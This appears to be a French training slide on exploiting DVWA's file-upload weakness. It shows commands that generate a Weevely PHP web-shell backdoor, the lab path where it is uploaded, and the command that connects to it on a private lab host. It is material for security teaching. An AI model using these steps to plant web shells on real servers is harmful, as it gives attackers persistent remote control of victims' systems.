

# FILE UPLOAD AVEC WEEVLY BACKDOOR
weevely generate abcxyz up.php

http://192.168.113.132/dvwa/vulnerabilities/upload/../../hackable/uploads/up.php

Pour s’y connecter :
weevely http://192.168.113.132/dvwa/hackable/uploads/up.php abcxyz